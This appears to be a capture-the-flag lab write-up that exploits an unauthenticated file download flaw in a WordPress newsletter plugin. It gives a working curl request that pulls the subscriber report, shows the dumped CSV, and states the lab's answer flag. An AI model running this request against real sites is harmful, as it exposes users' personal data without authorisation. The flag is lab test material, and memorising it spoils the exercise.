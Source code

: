 *Hint: Review the WPScan output*

Google search for: "Wordpress Unauthenticated File Download"

[WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download](https://www.exploit-db.com/exploits/48698)

Expolit:
```
curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'
EXAMPLE: curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

URL: `https://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all`

![](./attachments/Pasted%20image%2020220806150816.png)

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat all-contacts.csv                                          
"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

**Answer:** `HTB{unauTh_d0wn10ad!}`

---